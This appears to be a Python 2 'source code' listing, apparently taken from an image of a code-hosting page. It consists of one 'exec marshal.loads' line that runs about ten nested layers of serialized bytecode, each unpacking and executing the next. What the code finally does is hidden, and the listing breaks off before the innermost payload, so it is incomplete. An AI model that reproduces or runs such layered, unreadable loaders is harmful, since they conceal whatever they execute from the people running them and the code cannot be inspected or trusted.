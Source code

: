 exec marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs;\x13\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xa8\x12\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\x15\x12\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\x82\x11\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xef\x10\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\\\x10\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xc9\x0f\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs6\x0f\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xa3\x0e\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\x10\x0e\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00@\x00\x00\x00s\x13\x00\x00\x00d\x00\x00Z\x00\x00d\x01\x00\x84\x00\x00Z\x01\x00d\x02\x00S(\x03\x00\x00\x00s;\x03\x00\x00